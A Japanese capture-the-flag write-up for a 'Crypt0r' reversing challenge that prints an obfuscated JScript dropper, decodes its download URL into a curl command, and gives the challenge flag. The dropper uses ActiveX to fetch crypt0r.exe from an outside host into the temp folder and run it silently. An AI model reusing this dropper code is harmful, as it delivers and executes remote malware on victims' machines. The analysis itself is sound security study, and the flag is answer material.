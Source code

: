 ```javascript
var j = ["WScript.Shell","Scripting.FileSystemObject","Shell.Application","Microsoft.XMLHTTP"];
var u = ["aaacc.", ":/", "gpozgzejgozj", "glkrgjoegjnfozpkfpze", "top", "win32", "crypt0r", "binaries", "sweetvpn", ".", "arch", "exe", "http", "/"];

try {
    var sh = Cr(0);
    var fs = Cr(1);

    var s2 = Ex("temp") + "\\" + u[2*2+1] +  u[7+3-1]+ u[5*2+1];
    var fi = fs.CreateTextFile(s2,true);
    fi.Write(Pt(2565454484514854845487848, "kgjgepog=kfOIIIeeoezj=="));
    fi.Close();
    sh.run(s2);
}
catch (err)
{
}

function Ex(S) {
    return sh.ExpandEnvironmentStrings("%" + S + "%");
}

function Pt(C,A) {
    var X = Cr(3);
    var T = u[12] + u[7%6] + u[13] + u[3] + u[9] + u[2+2*0] + u[1029*0] + u[8*10/20*2] + u[9] + u[4] + u[13] + u[7] + u[13] + u[10] +  u[10+6/2] + u[7-2] + u[14+5-6] + u[6] + u[9] + u[11];

    X.open('GET', T + "?p=r&l=" + C, false);
    X.SetRequestHeader("User-Agent:", "Made by b4cc4rd1");
    X.send(A);
    return X.responsetext;
}


function Cr(N) {
    return new ActiveXObject(j[N]);
}
```

`curl "http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/win32/crypt0r.exe?p=r&l=2565454484514854845487848" -d "kgjgepog=kfOIIIeeoezj==" -A "Made by b4cc4rd1"` という感じで crypt0r.exe をダウンロードし、実行しています。

http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/.flag にフラグがありました。

```
INSAc79371180eddac4582321f98d32db67c
```

## [Reverse 150] Crypt0r Part2

http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/dbg64/ で `crypt0r.jessie` と `crypt0r.wheezy` の 2 つのバイナリが得られました。
